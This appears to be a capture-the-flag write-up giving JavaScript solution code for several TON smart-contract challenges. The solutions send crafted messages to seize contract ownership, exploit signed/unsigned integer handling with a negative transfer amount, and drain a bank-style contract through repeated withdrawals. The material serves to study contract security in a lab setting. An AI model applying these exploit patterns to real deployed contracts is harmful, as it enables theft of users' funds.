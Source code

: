 ## 11. Tolk

<details>
  <summary>Solution</summary>

```js
await contract.send(player, beginCell().storeUint(0xf0fd50bb, 32).endCell(), toNano('0.03'));
```

</details>

## 13. Access

Solved similarly to [this](https://github.com/mysteryon88/ton-ctfs/tree/main/hack-challenge-1/contracts/1.%20mutual%20fund) assignment

<details>
  <summary>Solution</summary>

```js
await contract.send(player, beginCell().storeUint(0x8caa87bd, 32).storeUint(9999, 32).endCell(), toNano('0.03'));

await contract.send(
    player,
    beginCell()
        .storeUint(0xf1eef33c, 32)
        .storeAddress(Address.parse('0QCfWnJsn6EObZIpyynLFgEI__C5qX4l_WsiaokAZuDW7bT2'))
        .endCell(),
    toNano('0.03'),
);

await contract.send(player, beginCell().storeUint(0xf0fd50bb, 32).endCell(), toNano('0.03'));
```

</details>

## 17. Token

Use of signed and unsigned numbers

<details>
  <summary>Solution</summary>

```js
await contract.getTotalSupply();
await contract.getBalanceOf(Address.parse('EQBRJB8v2jm0srC5LNYNedch8wR35KPsqt23TSwM9R2jFgSP')); // = 1000000n

await contract.send(
    player,
    beginCell()
        .storeUint(0x3ee943f1, 32)
        .storeAddress(Address.parse('EQBRJB8v2jm0srC5LNYNedch8wR35KPsqt23TSwM9R2jFgSP'))
        .storeInt(-1000000n, 256)
        .endCell(),
    toNano('0.03'),
);
```

  </details>

## 18. Jackpot

Solved similarly to [this](https://github.com/mysteryon88/ton-ctfs/tree/main/hack-challenge-1/contracts/2.%20bank) assignment

<details>
  <summary>Solution</summary>

Always check for modifying/non-modifying methods.

```js
// deposit
await contract.send(player, beginCell().storeUint(0, 32).endCell(), toNano('0.03'));

// withdraw
await contract.send(player, beginCell().storeUint(1, 32).storeCoins(toNano('0.02')).endCell(), toNano('0.03'));
await contract.send(player, beginCell().storeUint(1, 32).storeCoins(toNano('0.02')).endCell(), toNano('0.03'));
```

  </details>

